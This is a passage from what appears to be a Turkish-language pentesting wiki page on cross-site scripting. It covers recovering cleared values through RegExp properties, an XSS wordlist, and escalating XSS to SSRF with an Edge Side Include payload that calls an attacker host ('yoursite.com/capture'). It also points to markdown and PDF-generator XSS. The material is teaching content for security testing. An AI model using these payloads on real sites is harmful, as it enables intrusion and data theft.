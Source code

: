 [**bu yazıdan**](https://blog.arkark.dev/2022/11/18/seccon-en/#web-piyosay) öğrenmek mümkündür ki, bazı değerler JS'den kaybolsa bile, farklı nesnelerdeki JS özniteliklerinde hala bulunabilir. Örneğin, bir REGEX'in girişi, regex'in giriş değerinin kaldırılmasından sonra hala bulunabilir:
```javascript
// Do regex with flag
flag="CTF{FLAG}"
re=/./g
re.test(flag);

// Remove flag value, nobody will be able to get it, right?
flag=""

// Access previous regex input
console.log(RegExp.input)
console.log(RegExp.rightContext)
console.log(document.all["0"]["ownerDocument"]["defaultView"]["RegExp"]["rightContext"])
```
### Brute-Force List

{% embed url="https://github.com/carlospolop/Auto_Wordlists/blob/main/wordlists/xss.txt" %}

## XSS Diğer zafiyetleri istismar etme

### Markdown'da XSS

Render edilecek Markdown kodu enjekte edebilir misiniz? Belki XSS elde edebilirsiniz! Kontrol edin:

{% content-ref url="xss-in-markdown.md" %}
[xss-in-markdown.md](xss-in-markdown.md)
{% endcontent-ref %}

### XSS'den SSRF'ye

**Önbellek kullanan bir sitede XSS elde ettiniz mi?** Bu yük ile Edge Side Include Injection aracılığıyla **bunu SSRF'ye yükseltmeyi** deneyin:
```python
<esi:include src="http://yoursite.com/capture" />
```
Kullanarak çerez kısıtlamalarını, XSS filtrelerini ve daha fazlasını aşabilirsiniz!\
Bu teknik hakkında daha fazla bilgi burada: [**XSLT**](../xslt-server-side-injection-extensible-stylesheet-language-transformations.md).

### Dinamik oluşturulan PDF'de XSS

Eğer bir web sayfası kullanıcı kontrolündeki girdileri kullanarak bir PDF oluşturuyorsa, PDF'yi oluşturan **botu** **rastgele JS kodu çalıştırması için kandırmayı** deneyebilirsiniz.\
Yani, eğer **PDF oluşturucu bot** bazı **HTML** **etiketleri** bulursa, bunları **yorumlayacak** ve bu davranışı **istismar** ederek bir **Sunucu XSS** oluşturabilirsiniz.

{% content-ref url="server-side-xss-dynamic-pdf.md" %}
[server-side-xss-dynamic-pdf.md](server-side-xss-dynamic-pdf.md)
{% endcontent-ref %}
